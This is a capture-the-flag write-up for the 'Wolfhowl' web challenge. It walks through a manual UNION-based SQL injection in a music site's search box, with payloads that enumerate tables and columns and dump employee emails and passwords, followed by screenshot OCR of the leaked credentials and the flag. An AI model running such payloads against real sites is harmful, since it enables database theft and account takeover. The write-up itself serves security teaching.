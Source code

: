 # Wolfhowl
> Log into WolfHowl to get the flag

## About the Challenge
We are given a website and has multiple functionalities such as search feature, login and register user (But in this case, this feature has been disabled)


[Image extracted text: Enter an Artist to Look Up
Search
Sign up
Log in
yol @he
ter
Ikat yollisten to
NC State's Premiere Audio Streaming Servicel
Search your favorite artists like Ozzy Osbourne to see our selection]


## How to Solve?
There is a SQL injection vulnerability in the search feature, but I couldn't use SQLMap to exploit it. Therefore, in this case, I resolved this challenge using a manual approach. First I find the table name first using this payload
```
" union select table_name,2,3,4 from information_schema.tables-- -
```


[Image extracted text: Enter an Artist to Look Up
Search
up
Log in
Artist: album
Artist: artist
Artist: customer
Artist: employee
Album: 2
Album: 2
Album: 2
Album: 2
Track: 3
Track: 3
Track: 3
Track: 3
Listen
Listen
Listen
Listen
Artist: genre
Artist: invoice
Artist: invoiceline
Artist: mediatype
Album: 2
Album: 2
Album: 2
Album: 2
Track: 3
Track: 3
Track: 3
Track: 3
Listen
Listen
Listen
Listen
Sign]


As you can see, there are many tables, but in this case, we will choose the `employee` table. Now, I would like to know the column names in the `employee` table

```
" union select concat(column_name),2,3,4 from information_schema.columns where table_name=0x656d706c6f796565-- -
```


[Image extracted text: Enter an Artist to Look Up
Search
up
Log in
Artist: Employeeld
Artist: LastName
Artist: FirstName
Artist: Title
Album: 2
Album: 2
Album: 2
Album: 2
Track: 3
Track: 3
Track: 3
Track: 3
Listen
Listen
Listen
Listen
Artist: ReportsTo
Artist: BirthDate
Artist: HireDate
Artist: Address
Album: 2
Album: 2
Album: 2
Album: 2
Track: 3
Track: 3
Track: 3
Track: 3
Listen
Listen
Listen
Listen
Sign]


Now, we need to extract the `email` and `password` columns, as we require the credentials to log in to the website.

```
" union select concat(email,password),2,3,4 from employee-- -
```


[Image extracted text: Artist:
Artist:
Artist:
Artist:
andrew@chinookcorp comPASS
nancyc
chinookcorp comShirley
jane@chinookcorp.comDawnoft
margaret@chinookcorp.comwha
WORD
Temple
heDead
tnot
Album: 2
Album: 2
Album: 2
Album: 2
Track: 3
Track: 3
Track: 3
Track: 3
Listen
Listen
Listen
Listen
Artist:
Artist:
Artist:
Artist:
steve@chinookcorp comhunter2
michael@chinookcorpcombubb
robert@chinookcorp comUpUp
laura@chinookcorp.comrochelle
2
les
DownDownLeftRightLeftRightAB
123
Album: 2
Album: 2
Album: 2
Album: 2
Track: 3
Track: 3
Track: 3
Track: 3]


And then login using one of the credential that has been exposed using SQL injection payload to obtain the flag


[Image extracted text: Oops.
flag{art_decorates_space_but_music_decorates_time}
Please be sure to support your favorite creators!
WolfHowl
NC State's Premiere Audio Streaming Service by
You Are What You Listen To by Mohammad Metri]


```
flag{art_decorates_space_but_music_decorates_time}
```